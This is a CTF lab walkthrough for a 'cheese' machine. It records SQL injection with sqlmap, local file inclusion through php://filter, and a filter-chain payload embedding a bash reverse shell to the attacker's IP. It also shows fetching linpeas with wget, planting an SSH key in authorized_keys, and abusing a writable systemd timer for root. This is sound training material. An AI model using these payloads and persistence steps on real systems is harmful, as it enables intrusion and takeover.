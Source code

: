NMAP
An nmap scan showed that almost every port that was scanned is open, when doing a litle research found that this machine they have done portspoofing as explaiined on

[this url from black hills](https://www.blackhillsinfosec.com/how-to-use-portspoof-cyber-deception/)

Visited the ip on a web browser and found:

![Screenshot From 2025-05-23 22-46-23](https://github.com/user-attachments/assets/1c16bfb6-d943-47d0-a1e5-3712eda2e81c)

WEB ENUM
Some of the tools that we shall use for web enumeration are
```
dirsearch #directories

vhost fuzzing # [use this](https://github.com/TeneBrae93/offensivesecurity) then navigate to the vhost script make it executable then run it:
 ```bash
./vhost-fuzzer.sh cheese.thm /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://cheese.thm 1
```
Browse the page and found a login page, tried some passwords but nothing seemed to be working

Lets try ``sqlmap`` is a tools used for detecting and exploiting SQL injection vulnerabilities in web applications.

![Screenshot From 2025-05-23 23-49-40](https://github.com/user-attachments/assets/e7fb4c57-b6c5-4fdc-8224-069f8a7913e4)

After running the command got access to the admin panel

![Screenshot From 2025-05-23 23-50-59](https://github.com/user-attachments/assets/7e82a163-a9f1-4eff-90de-3627298fed5b)

when I navigate to the message tab on the admin panel I see the url has php:filter:
![Screenshot From 2025-05-23 23-57-53](https://github.com/user-attachments/assets/975c8445-1ff4-4439-89d9-7360e11c4a19)

On the admin or message  url we can manipulate the url to /etc/passwd:

![image](https://github.com/user-attachments/assets/0587c199-8043-4af5-a624-e51910199955)

On this point want to have a reverse shell 

What I have done is that I used this command to download the payload that is going to open the reverse shell when executed

```bash
 python3 php_filter_chain_generator.py --chain "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.9.8.195/4444 0>&1'\"); ?>" | grep "^php" > payload.txt

```
this downloads a payload that I updated on the burp while setting a listener on the terminal to access the shell:

![Screenshot From 2025-05-24 12-06-05](https://github.com/user-attachments/assets/c4f7f6b7-a5c5-42a9-b85f-49640b50152f)

this is the payload 

![Screenshot From 2025-05-24 12-07-00](https://github.com/user-attachments/assets/e6e4546c-4975-47b8-882a-977cbdc21494)

Since we have the shell 

Lets download linpeas on the victim's machine
```bash
wget http://10.9.8.195:8000/linpeas.sh -O /tmp/linpeas.sh

chmod +x linpeas.sh

./llnpeas.sh
```
![Screenshot From 2025-05-24 12-20-25](https://github.com/user-attachments/assets/c1b10a5c-e4a1-4c03-9064-6f503beb4950)

shows a .ssh file of the comte user it has authorized_keys file and this contains the ssh keys of authorized users who can establish an SSH connection as user comte on the target.

lets generate the ssh key
```bash
ssh-keygen -t rsa
```
![Screenshot From 2025-05-24 12-29-18](https://github.com/user-attachments/assets/f5e78564-fac4-4d93-99ae-9ac0a8b76882)

Copy the public ssh key from id_rsa.pub file

![Screenshot From 2025-05-24 12-28-00](https://github.com/user-attachments/assets/21d17520-61ca-4457-b9c3-4ddec485031e)

Paste the key on the authorizad_keys file

![Screenshot From 2025-05-24 13-47-16](https://github.com/user-attachments/assets/cd57844d-7b49-409b-aab9-94dc31330f27)

Lets login using comte ``ssh -i id_rsa comte@10.10.108.215`` on the terminal of your machine

![Screenshot From 2025-05-24 13-48-52](https://github.com/user-attachments/assets/d26a2cb4-640b-4d14-b690-2c563b6a20c5)

then access the user.txt file using ``cat user.txt``

PRIVELAGE ESCALATION 

lets see the commands that have root access by ``sudo -l``

![Screenshot From 2025-05-24 13-51-28](https://github.com/user-attachments/assets/ca4bf30a-18d2-4ae8-bd5d-2bb95a993efb)

Lets navigate to the directory where services are stored ``/etc/systemd/system``

can checked the exploit.timer file using cat

I also had writable permission. I pasted the whole script on ChatGPT and told it the whole context then I got to know that i have to change the value of OnBootSec variable so I did that and changed the value to 5s

![image](https://github.com/user-attachments/assets/c5cf728f-0adb-4b30-abc7-bb6efd792c96)

used nano to edit exploit.timer

to a 5second on bootsec

Then run this commands 
```bash
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart exploit.timer
 cd /opt
```

![Screenshot From 2025-05-24 13-58-44](https://github.com/user-attachments/assets/d82fccf0-7785-49f8-9ccb-64d191da3f76)

Did research on what is `xxd` and found:

The xxd command is a hex dump utility for Linux/Unix systems. It can create a hex dump of a file or convert a hex dump back into binary.

 What xxd Does:

Hex Dump: Converts binary data into a readable hexadecimal + ASCII format.

Reverse Hex: Converts hex dump back to the original binary data.

used this to get the root.txt flag














